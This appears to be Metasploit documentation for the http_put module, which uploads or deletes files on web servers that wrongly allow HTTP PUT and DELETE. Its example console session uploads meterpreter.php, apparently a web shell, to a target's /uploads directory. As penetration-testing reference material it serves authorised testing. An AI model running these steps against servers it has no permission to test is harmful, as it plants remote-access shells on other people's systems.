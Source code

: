 ## Description 
This module can abuse misconfigured web servers to upload and delete web content via PUT and DELETE HTTP requests.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/http_put```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set PATH [PATH]```
5. Do: ```set FILENAME [FILNAME]```
6. Do: ```set FILEDATA [PATH]```
7. DO: ```run```

## Options 

### ACTION

**PUT**

Action is set to PUT to upload files to the server. If `FILENAME` isn't specified, the module will generate a random string as a .txt file.

**DELETE** 

Deletes the file specified in the `FILENAME` option. (default: `msf_http_put_test.txt`)

### PATH

The path at which this module will attempt to either PUT the content or DELETE it.

### FILEDATA

The file whose data is to be uploaded. 

## Scenarios

Here Action is set to `PUT`.

```
msf > use auxiliary/scanner/http/http_put
msf auxiliary(scanner/http/http_put) > set ACTION PUT
ACTION => PUT
msf auxiliary(scanner/http/http_put) > set RHOSTS 1.1.1.23
RHOSTS => 1.1.1.23
msf auxiliary(scanner/http/http_put) > set RPORT 8585
RPORT => 8585
msf auxiliary(scanner/http/http_put) > set PATH /uploads
PATH => /uploads
msf auxiliary(scanner/http/http_put) > set FILENAME meterpreter.php
FILENAME => meterpreter.php
msf auxiliary(scanner/http/http_put) > set FILEDATA file://root/Desktop/meterpreter.php
FILEDATA => file://root/Desktop/meterpreter.php
msf auxiliary(scanner/http/http_put) > run 

[+] File uploaded: http://1.1.1.23:8585/uploads/meterpreter.php
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/http_put) >
```
 

